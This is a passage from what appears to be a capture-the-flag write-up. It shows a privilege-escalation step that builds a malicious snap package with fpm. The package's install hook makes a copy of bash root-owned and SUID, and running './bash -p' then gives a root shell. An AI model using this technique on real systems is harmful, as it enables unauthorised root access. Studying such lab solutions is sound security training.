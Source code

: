 - The final command he used 
```
COMMAND="chown root:root /home/brucetherealadmin/bash;chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

![](./IMG/45.png)
![](./IMG/46.png)

```
./bash -p
```

![](./IMG/48.png)
#### Explanation 

> Ippsec has tried the following: 
